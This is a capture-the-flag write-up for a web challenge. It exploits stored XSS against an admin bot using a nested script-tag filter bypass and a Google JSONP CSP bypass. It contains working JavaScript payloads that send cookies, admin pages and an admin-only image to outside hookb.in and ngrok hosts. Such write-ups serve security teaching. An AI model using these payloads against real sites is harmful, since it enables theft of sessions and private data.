




# Not received prize

## Description

**Web, 443 points (20 solves)**

*Dear friend, I recently had a tragedy, I was advised to use the services of a company that gives a comforting gift for a review.*

*I left a review but did not receive a gift, can you figure it out?*

A fun web task with some classic elements as well as a few twists and tricks.

## Solution

### Triggering the XSS



The site greets us with a form, where we need to specify a name and a description. There's also a Google captcha (that will prove to be *very* annoying) which seems solely here to justify the presence of a **script to Google's domain**:

```html
<script src="https://www.google.com/recaptcha/api.js" async defer></script>
```

Let us, in fact, check the **CSP** (Content Security Policy) sent by the server:

```
Content-Security-Policy:
  default-src 'self'   *.google.com *.gstatic.com;
  script-src 'self'  *.google.com *.gstatic.com;
  style-src 'self' 'unsafe-inline';
  object-src 'none';
  img-src *
```

This screams [CSP bypass via JSONP](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#jsonp). Let's keep that in mind for in a little bit 😉 

Onto the feedback form: the server sends us back a link, which we can use to see our feedback in action (`http://151.236.114.211:13666/help/read.html?id=4e62dcb09b7570d1dcfb31d36e2dca1e072e11824f1a8846f751460b04d8118d`).



Playing with the id in the URL does not yield any interesting result. The "Not Viewed" string, however, is what should catch your eye; it seems to imply that **an administrator will review our feedback**. Indeed, after waiting a few seconds and reloading the page, it now displays "Viewed".

Our feedback (name and description) are output in the HTML:

```html
<div class="uk-overflow-auto" id="cont">
  <p>Viewed</p>
  <p>abc</p>
  <p>def</p>
</div>
```

Let's try some basic XSS fuzzing:

```html
<div class="uk-overflow-auto" id="cont">
  <p>Not Viewed</p>
  <p>&amp;lt;script&amp;gt;alert(1)&amp;lt;/script&amp;gt;</p>
  <p>&lt;script&gt;alert(1)&lt;/script&gt;</p>
</div>
```

Dang, sounds like our payload got escaped. Wait... why is the name escaped *twice*? Could it be that our input is also escaped once client-side?

The answer lies in the `js/index.js` file:

```js
axios.post('/api/help/add', {
  name: _.escape(name.value),
  msg: _.escape(msg.value),
  captch: _.escape(captch.value)
})
```

**Client-side escaping**, yikes! Let's get rid of this: patch the code by removing the \_.escape() calls and submit a new form.

```html
<div class="uk-overflow-auto" id="cont">
  <p>Not Viewed</p>
  <p>&lt;script&gt;alert(1)&lt;/script&gt;</p>
  <p>alert(1)</p>
</div>
```

This time, the `<script>` tags got removed. It might just be a dumb string replacement, in which case let's try with `<scr<script>ipt>alert(1)</sc</script>ript>`.

```html
<div class="uk-overflow-auto" id="cont">
  <p>Not Viewed</p>
  <p>a</p>
  <p><script>alert(1)</script></p>
</div>
```

It worked! But wait... where's our alert? Let's open up the web console:

> Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self'  *.google.com *.gstatic.com". Either the 'unsafe-inline' keyword, a hash ('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI='), or a nonce ('nonce-...') is required to enable inline execution.

Riiight, the CSP won't let us inject inline script. What we can inject, on the other hand, is a script whose src attribute points to something Google-related; a **Google JSONP endpoint**.

For instance, https://accounts.google.com/o/oauth2/revoke?callback=alert(31337); returns a script beginning with our payload, `alert(31337)`. Let's try it out:

```html
<scri<script>pt src="https://accounts.google.com/o/oauth2/revoke?callback=alert(31337)"></scri</script>pt>
```



### Being the admin's puppeteer

Now the fun begins. From now on, I will only show the callback scripts without the surrounding parts for readability.

We build a classic payload to exfiltrate cookies:

```js
window.location=encodeURI('https://hookb.in/lJRg9j0NMjfrXXZWdaRx?x='.concat(btoa(document.cookie)));
```

However, we are not able to intercept any cookie.



The admin did visit our link though, which is good news.

The `Referrer` header is interesting: the admin comes from an **admin read page**. We can try **fetching the contents** of that page, as well as other pages (we can imagine there also is an `/admin/index.html`).

```js
var xhr=new XMLHttpRequest();
xhr.open('GET','/admin/',false);
xhr.send();
window.location=encodeURI('https://hookb.in/Z2RPOgOzaXHR33eLJV3n?x='.concat(btoa(xhr.responseText)));
```

You can notice the use of synchronous XMLHttpRequest. That is because in a lot of previous XSS challenges, I've never had luck with fetch() or async XMLHttpRequest... it turns out the fetch API did work in this challenge, as other write-ups may show. It did work this way, even though it made the last part more intricate as you will see.

For now, we are able to get the contents of `index.html`, which is a login form. It is important noting anything that is in the `/admin/` folder we cannot access (403).

There is also a `/admin/index.js` script, which makes a login request:

```js
axios.post('/api/auth/', {
  login: _.escape(login.value),
  password: _.escape(password.value),
  action: 'auth'
})
```

We can't fuzz this route directly, but we can fuzz it through the admin's actions with enough determination. It would have been fun to exploit an SQL injection remotely this way. Actually nevermind, it would have been very annoying because the captcha prevents you from automating it.

Once the admin is logged in, they are redirected to `/admin/list.html` which shows the list of feedbacks, dynamically fetched through `/admin/list.js`, which makes an API call to `/api/admin/help/list`.

Fetching this route does show us the different feedbacks, but only the ones that are yet to be read. We couldn't find any "special feedback" that hid the flag.

The `/admin/read.html` file, however, contains a link to `/admin/prize.html`, and the associate script:

```js
const genEx = () => {
  const spiner = document.getElementById('spiner1')
  spiner.style.display = 'inline'
  axios.post('/api/admin/pz/ex', {})
    .then((result) => {

      if (typeof result.data.error !== 'undefined') {
        UIkit.notification({
          message: result.data.error || '',
          status: 'danger',
          pos: 'top-center',
          timeout: 5000
        });
      } else {
        const ex = document.getElementById('ex')
        ex.textContent = result.data['ex'] || '';
        spiner.style.display = 'none'
      }
    })
    .catch((error) => {
      UIkit.notification({
        message: error.message,
        status: 'danger',
        pos: 'top-center',
        timeout: 5000
      });
      console.log(error);
    });
}

btn.onclick = () => {
  const btn = document.getElementById('btn')
  const spiner2 = document.getElementById('spiner2')
  const solve = document.getElementById('solve')
  const priz = document.getElementById('priz')

  btn.disabled = true
  btn.style.background = '#FFFFFF44'
  spiner2.style.display = 'inline'

  axios.post('/api/admin/pz/check', {
      solve: _.escape(solve.value)
    })
    .then((result) => {

      if (typeof result.data.error !== 'undefined') {
        UIkit.notification({
          message: result.data.error || '',
          status: 'danger',
          pos: 'top-center',
          timeout: 5000
        });

      } else {

        priz.src = result.data['img'] || ''
        priz.style.display = 'inline'
      }

      btn.disabled = false
      btn.style.background = '#FFFFFF00'
      spiner2.style.display = 'none'
      genEx()
    })
    .catch((error) => {
      UIkit.notification({
        message: error.message,
        status: 'danger',
        pos: 'top-center',
        timeout: 5000
      });
      console.log(error);
      btn.disabled = false
      btn.style.background = '#FFFFFF00'
      spiner2.style.display = 'none'
    });
};

genEx()
```

What is important to understand in this code:

* A POST request to `/api/admin/pz/ex` is made
* Its contents is shown to the user
* They have to make a POST request to `/api/admin/pz/check` with some `solve` parameter.

We make the admin fetch `/api/admin/pz/ex` for us:

```json
{
  "ex": "6 * 4 = ?"
}
```

That's right, we have to make the admin solve a math operation. Of course, it changes every time, and the operator changes too (addition, substraction...). Nothing really technically relevant so I will skip this part.

Once solved, the `/api/admin/pz/check` route returns:

```json
{
  "img": "/admin/img/175193053491407376ff47dc6e834673.png"
}
```

### A picturesque ending

Could this image finally contain the flag? Evidently, we cannot fetch it directly ourselves because of 403, so we have to make the admin fetch it for us.

Two main hardships:
* The PNG content is binary data, which should be exfiltrated with care;
* The PNG content is probably too big to be exfiltrated through a HTTP querystring.

For the second point, we can deal with it by setting up our own simple TCP server that logs anything it receives (without even necessarily responding) and tunneling it through *ngrok*. 

For the first point, let me explain the issue. If you try to fetch the PNG the normal way with synchronous XMLHttpRequest as we've been doing since the beginning, `xhr.response` will contain the PNG contents, but...

```
�PNG
.
...
IHDR...c...�.....Ü.w�....sRGB.��.�....gAMA..��.�a....    pHYs...�...�.�o�d..��IDATx^�.ïï{ïïQua·îßMûïï{ïï{ïï^
```

It is completely broken, because of encoding reasons. All "special" bytes are replaced with garbage (such as \x89 -> \xef\xbf\xbd), and it is not reversible.

The [Mozilla docs](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/Sending_and_Receiving_Binary_Data) has stuff to stay about it; we should specify `xhr.responseType = "arraybuffer";` to receive an *array buffer*, which we can then process the right away, for instance to encode it into base64.

However, it does not work; we get an error saying `responseType` cannot be set for synchronous requests. Indeed:

> You cannot change the value of responseType in a synchronous XMLHttpRequest except when the request belongs to a Worker. This restriction is designed in part to help ensure that synchronous operations aren't used for large transactions that block the browser's main thread, thereby bogging down the user experience.

We are doomed... at this point I even tried using a *Worker* as suggested. You can create a worker on-the-fly as such:

```js
function startNewWorker(code) {
  var blob = new Blob([code], {type: 'application/javascript'});
  var worker = new Worker(URL.createObjectURL(blob));
}
function z() {
  // do something ....
}
const w1 = startNewWorker('('+z.toString()+')()');
```

But this solution did not work either, because CSP policy refused to load the worker script!

I eventually thought of **loading the image through an actual `` tag**. This way, maybe we can extract the contents of the image once it has been loaded. It turns out you can, by using a **canvas**. Here's how:

```js
var img=new Image;
img.crossOrigin='Anonymous';
img.src='/admin/img/175193053491407376ff47dc6e834673.png';
var c=document.createElement('canvas');
c.height=img.naturalHeight;
c.width=img.naturalWidth;
c.getContext('2d').drawImage(img, 0, 0, c.width, c.height);
window.location=encodeURI('http://ngrok.../?x='.concat(c.toDataURL()));
```

The image is loaded in an `` tag, and a canvas is drawn with the loaded image. Then, the `toDataURL` method allows us to get a base64 `data:` representation of the drawn image, which we can exfiltrate!

The last issue we have to take care of is that the image should have finished loading before being drawn in the canvas, otherwise it will end up being empty. Since we didn't have luck with asynchronous "onload" type of events, we simply used a `setTimeout` which waits long enough before creating the canvas.

Here is the final payload:

```html
<scri<script>pt src="https://accounts.google.com/o/oauth2/revoke?callback=var img=new Image;img.crossOrigin='Anonymous';img.src='/admin/img/175193053491407376ff47dc6e834673.png';setTimeout(function(){var c=document.createElement('canvas');c.height=img.naturalHeight;c.width=img.naturalWidth;var ctx=c.getContext('2d');ctx.drawImage(img,0,0,c.width,c.height);window.location=encodeURI('http://ngrok.../?x='.concat(c.toDataURL());},3000);"></scri</script>pt>
```

And the exfiltrated image:


